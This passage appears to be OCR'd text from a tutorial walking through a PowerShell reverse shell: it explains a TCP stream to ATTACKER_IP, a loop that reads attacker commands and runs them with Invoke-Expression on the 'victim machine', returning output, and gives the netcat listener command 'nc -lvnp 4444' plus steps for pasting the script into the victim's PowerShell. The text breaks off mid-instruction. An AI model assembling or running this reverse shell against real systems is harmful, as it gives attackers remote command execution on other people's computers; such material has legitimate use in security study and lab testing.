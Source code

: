         Replace 'ATTACKER_IP' with the actual IP address of your attacker's machine.

    Stream Setup:

        $stream = $client.GetStream(): This sets up a stream for sending and receiving data.

        $writer = New-Object System.IO.StreamWriter($stream): This object sends data to the attacker.

        $reader = New-Object System.IO.StreamReader($stream): This object listens for commands from the attacker.

    Send Initial Confirmation:

        The script sends a confirmation message to the attacker to let them know the reverse shell is active:

        $writer.WriteLine("Connection Established")
        $writer.Flush()

    Main Command Loop:

        The script listens for commands sent from the attacker. It uses the ReadLine() method to receive the commands:

        $command = $reader.ReadLine()

        If the attacker sends the exit command, it breaks out of the loop and closes the connection.

        Otherwise, it executes the received command using Invoke-Expression, which runs the command on the victim machine:

        $output = Invoke-Expression $command

    Sending Command Output Back to Attacker:

        The result of the command is sent back to the attacker using:

        $writer.WriteLine($output)
        $writer.Flush()

    Close the Connection:

        When the attacker sends exit, the connection is closed on both sides:

        $client.Close()

3. Running the Reverse Shell:
On the Attacker's Side:

    Ensure Netcat is running and waiting for the connection:

    nc -lvnp 4444

    This will allow Netcat to listen on port 4444, and when the victim connects back, Netcat will show a shell prompt where the attacker can issue commands.

On the Victim's Side:

    Open PowerShell on the victim machine.

    Copy the PowerShell script and paste it directly into the PowerShell window, or save it as a .ps1 file and run it:
